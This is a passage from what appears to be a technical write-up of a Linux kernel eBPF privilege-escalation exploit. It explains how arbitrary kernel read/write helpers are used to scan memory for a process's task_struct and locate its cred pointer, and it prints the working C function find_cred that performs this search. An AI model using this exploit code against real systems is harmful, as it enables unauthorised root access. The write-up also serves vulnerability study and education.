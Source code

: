 When these processes next resume, one of them should hopefully have root privileges.
The exploit sets up some arbitrary read and write helper functions, but they're not necessary
to understand. They just let you read and write arbitrary kernel addresses by invoking the
programs build above. Now we start scanning through memory until we find one of our processes
[`task_struct`](https://elixir.bootlin.com/linux/v5.13/source/include/linux/sched.h#L657)
until we find the name we set in [`comm`](https://elixir.bootlin.com/linux/v5.13/source/include/linux/sched.h#L972).
Then we go down `0x10` (16) bytes to the pointer
to [`cred`](https://elixir.bootlin.com/linux/v5.13/source/include/linux/sched.h#L958) (it tries two adjacent locations).

```c
int find_cred(context_t *ctx)
{
    for (int i = 0; i < PAGE_SIZE*PAGE_SIZE ; i++)
    {
        u64 val = 0;
        kaddr_t addr = ctx->array_map + PAGE_SIZE + i*0x8;
        if (arbitrary_read(ctx, addr, &val, BPF_DW) != 0) {
            WARNF("Could not read kernel address %p", addr);
            return -1;
        }

        // DEBUGF("addr %p = 0x%016x", addr, val);

        if (memcmp(&val, __ID__, sizeof(val)) == 0) {
            kaddr_t cred_from_task = addr - 0x10;
            
            if (arbitrary_read(ctx, cred_from_task + 8, &val, BPF_DW) != 0) {
                WARNF("Could not read kernel address %p + 8", cred_from_task);
                return -1;
            }

            if (val == 0 && arbitrary_read(ctx, cred_from_task, &val, BPF_DW) != 0) {
                WARNF("Could not read kernel address %p + 0", cred_from_task);
                return -1;
            }

            if (val != 0) {
                ctx->cred = (kaddr_t)val;
                DEBUGF("task struct ~ %p", cred_from_task);
                DEBUGF("cred @ %p", ctx->cred);
                return 0;
            }
            

        }
    }
    
    return -1;
}
```
